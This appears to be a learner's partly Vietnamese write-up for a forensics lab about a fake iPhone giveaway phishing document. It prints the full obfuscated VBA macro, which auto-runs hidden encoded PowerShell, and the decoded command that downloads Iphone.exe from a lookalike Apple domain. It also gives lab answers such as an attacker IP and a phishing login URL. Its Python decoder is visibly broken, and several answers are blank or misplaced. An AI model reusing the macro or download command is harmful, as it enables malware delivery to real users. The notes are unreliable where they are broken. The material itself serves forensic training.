



### Q1 What is the hostname of the victim machine? {#34b7b0eb61a480f38af8ffb129b6e0ac}


Data
WIN-NF3JQEU4G0T


### Q2 What is the messaging app installed on the victim machine? {#34b7b0eb61a48049ac21f91dbf774e05}





### Q3 The attacker tricked the victim into downloading a malicious document. Provide the full download URL. {#34b7b0eb61a480ad921aef8a3bba2de2}


C:\Users\cuong_nguyen\Desktop\CyberDefender\Users\Semah\Downloads


okay you can check this file below :
https : / / [drive.google.com](http://drive.google.com/) / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing readme.txt https : / / [drive.google.com](http://drive.google.com/) / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing & usp = embed_facebook


:::tip

Whatsapp hay zalo, discord, slack đều là ứng dụng Electon, tức là một trình duyệt chrome thu nhỏ, chạy ngầm để hiển thị giao diện
Không lưu tin nhắn dưới dạng tệp SQlite. Mà cấu trúc dữ liệu là IndexedDB/LevelDb

- `...\WhatsApp\IndexedDB\https_web.whatsapp.com_0.indexeddb.leveldb`

_Để phân tích: LevelDB Viewer_, các script Python parse LevelDB, hoặc các bộ tool thương mại đắt tiền như Magnet AXIOM, Belkasoft).

:::


http://appIe.com/IPhone-Winners.doc





### Q4 Multiple streams contain macros in the document. Provide the number of the highest stream. {#34b7b0eb61a48056bf08c30b0be031e7}


10


### Q5 The macro executed a program. Provide the program name? {#34b7b0eb61a4802d803de0725b49f3b7}


```c++
Attribute VB_Name = "eviliphone"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
lllllllll1l
End Sub


```


```c++
Attribute VB_Name = "iphoneevil"
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) & Chr(81) & Chr(66) & Chr(117) & Chr(65) & Chr(72) & Chr(89) & Chr(65) & Chr(98) & Chr(119) & Chr(66) & Chr(114) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(81) & Chr(66) & Chr(51) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(89) & Chr(103) & Chr(66) & Chr(121) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(119) & Chr(66) & Chr(48) & Chr(65) & Chr(67) & Chr(65) & Chr(65) & Chr(76) & Chr(81) & _
Chr(66) & Chr(86) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(97) & Chr(81) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(97) & Chr(65) & Chr(66) & Chr(48) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(99) & Chr(65) & Chr(65) & Chr(54) & Chr(65) & Chr(67) & Chr(56) & Chr(65) & Chr(76) & Chr(119) & Chr(66) & Chr(104) & Chr(65) & Chr(72) & Chr(65) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(74) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(103) & Chr(66) & Chr(106) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(81) & Chr(65) _
& Chr(118) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(84) & Chr(119) & Chr(66) & Chr(49) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(82) & Chr(103) & Chr(66) & Chr(112) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(90) & Chr(81) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(81) & Chr(119) & Chr(65) & Chr(54) & Chr(65) & Chr(70) & Chr(119) & Chr(65) & Chr(86) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(48) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(99) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(85) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(86) & Chr(81) & Chr(66) & Chr(122) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(82) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(89) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(100) & Chr(65) & Chr(66) & Chr(68) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(107) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(48) & Chr(65) & Chr(71) & Chr(107) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(115) _
& Chr(65) & Chr(72) & Chr(77) & Chr(65)
    llllllllll1 = Chr(112) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(115) & Chr(104) & Chr(101) & Chr(108) & Chr(108) & Chr(32) & Chr(45) & Chr(69) & Chr(110) & Chr(99) & Chr(111) & Chr(100) & Chr(101) & Chr(100) & Chr(67) & Chr(111) & Chr(109) & Chr(109) & Chr(97) & Chr(110) & Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function


```


```c++
import re
import base64

def decode_vba(vba_code):
    matches = re.findall(r'Chr\((\d+)\)', vba_code)
    if not matches:
        print("Khong tim thay")
        return
    
    base64_string = "".join([chr(int(num))for num in matches])

    try:
        padding = (len(base64_string)) %4
        if padding:
            base64_string+= "=" (4-padding)
        decoded_bytes = base64.base64decod(base64_string)
        decoded_payload = decoded_bytes.decode("utf-16-le")

        print(f"Lenh powershell: \n{'-'*50}\n{decoded_payload}\n{'-'*50}")
    except Exception as e:
        print(f"Loi giai ma {e}")

vba_payload ="""
Chr(97) & Chr(81) & Chr(66) & Chr(117) & Chr(65) & Chr(72) & Chr(89) & Chr(65) & Chr(98) & Chr(119) & Chr(66) & Chr(114) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(81) & Chr(66) & Chr(51) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(89) & Chr(103) & Chr(66) & Chr(121) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(99) & Chr(119) & Chr(66) & Chr(48) & Chr(65) & Chr(67) & Chr(65) & Chr(65) & Chr(76) & Chr(81) & _
Chr(66) & Chr(86) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(97) & Chr(81) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(97) & Chr(65) & Chr(66) & Chr(48) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(99) & Chr(65) & Chr(65) & Chr(54) & Chr(65) & Chr(67) & Chr(56) & Chr(65) & Chr(76) & Chr(119) & Chr(66) & Chr(104) & Chr(65) & Chr(72) & Chr(65) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(74) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(76) & Chr(103) & Chr(66) & Chr(106) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(81) & Chr(65) _
& Chr(118) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(84) & Chr(119) & Chr(66) & Chr(49) & Chr(65) & Chr(72) & Chr(81) & Chr(65) & Chr(82) & Chr(103) & Chr(66) & Chr(112) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(90) & Chr(81) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(99) & Chr(65) & Chr(81) & Chr(119) & Chr(65) & Chr(54) & Chr(65) & Chr(70) & Chr(119) & Chr(65) & Chr(86) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(48) & Chr(65) & Chr(99) & Chr(65) & Chr(66) & Chr(99) & Chr(65) & Chr(69) & Chr(107) & Chr(65) & Chr(85) & Chr(65) & Chr(66) & Chr(111) & Chr(65) & Chr(71) & Chr(56) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(108) & Chr(65) & Chr(67) & Chr(52) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(52) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(74) & Chr(119) & Chr(65) & _
Chr(103) & Chr(65) & Chr(67) & Chr(48) & Chr(65) & Chr(86) & Chr(81) & Chr(66) & Chr(122) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(82) & Chr(65) & Chr(66) & Chr(108) & Chr(65) & Chr(71) & Chr(89) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(49) & Chr(65) & Chr(71) & Chr(119) & Chr(65) & Chr(100) & Chr(65) & Chr(66) & Chr(68) & Chr(65) & Chr(72) & Chr(73) & Chr(65) & Chr(90) & Chr(81) & Chr(66) & Chr(107) & Chr(65) & Chr(71) & Chr(85) & Chr(65) & Chr(98) & Chr(103) & Chr(66) & Chr(48) & Chr(65) & Chr(71) & Chr(107) & Chr(65) & Chr(89) & Chr(81) & Chr(66) & Chr(115) _
& Chr(65) & Chr(72) & Chr(77) & Chr(65)
"""
decode_vba(vba_payload)

```


gọi powershell


invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials


### Q6 The macro downloaded a malicious file. Provide the full download URL. {#34b7b0eb61a480848756fc32a38317f4}


### Q7 Where was the malicious file downloaded to? (Provide the full path) {#34b7b0eb61a480cb937ef5cebb4baa53}


C:\Temp\IPhone.exe


### Q8 What is the name of the framework used to create the malware? {#34b7b0eb61a4803abf3ee46af90c1f45}


Metasploit


### Q9 What is the attacker's IP address? {#34b7b0eb61a480e1be63dce631442181}


155.94.69.27 


Tìm trên 


### Q10 The fake giveaway used a login page to collect user information. Provide the full URL of the login page? {#34b7b0eb61a48034abe2f20b37b48e5e}


URL	Title	Visit Time	Visit Count	Visited From	Visit Type	Visit Duration	Web Browser	User Profile	Browser Profile	URL Length	Typed Count	History File	Record ID
http://appIe.competitions.com/rules		3/20/2021 6:04:42 AM	1	http://appIe.competitions.com/login.php	


### Q11 What is the password the user submitted to the login page? {#34b7b0eb61a48059ab67fcb69bf96426}




